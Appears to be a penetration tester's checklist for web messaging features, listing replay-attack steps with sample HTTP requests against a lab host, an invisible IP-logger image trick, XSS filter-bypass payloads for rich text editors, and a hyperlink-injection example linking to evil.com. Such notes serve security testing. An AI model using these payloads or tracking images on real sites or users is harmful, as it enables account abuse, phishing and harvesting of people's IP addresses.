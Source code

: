 ```yaml
---
tags:
  - web_hunting
  - logic-bugs
  - web-app-security
---
```

- [ ] Blind [[XSS|XSS]]
- [ ] Replay Attacks
    
    ```python
    # Try token Re-Use
    # U send Message 
    PUT /v1/api/messages/send?token=RWFzdGVyIGVnZyEgWW91RhdGEg=
    HTTP/1.1
    Host: vulnlab.com
    Content-Type: application/json
    {‘msg’: ‘Hi there! I will meet you at my place at 9pm today..’}
    
    --------------------------------------
    # U Then logout
    GET /v1/api/messages/logout?token=RWFzdGVyIGVnZyEgWW91RhdGEg=
    HTTP/1.1
    Host: vulnlab.com
    Content-Type: application/json 
    ---------------------------------------------------------
    We can then try to resend the request multiple times using the old token but with
    different messages.
    
    If the request was successful and no different status code was returned, it means
    we are able to flood the application using the session data of an old user.
    ```
    
- [ ] Markup Language? try [**Create A picture that steals Data**](https://medium.com/@iframe_h1/a-picture-that-steals-data-ff604ba1012)
    
    ```python
    Go to <https://iplogger.org/>
    choose invisible image 
    send the message 
    ```
    
- [ ] [[XSS|XSS]] in email section
- [ ] **XSS Bypass for Rich Text Editors**
    
    ```js
    First, try all the built-in functions like bold, links, and embedded images.
    
    <</p>iframe src=javascript:alert()//
    <a href="aaa:bbb">x</a>
    <a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>
    
    [Click on me to claim 100$ vouchers](<https://evil.com>) -> Hyperlink Injection
    ```
- [ ] [[IDOR]]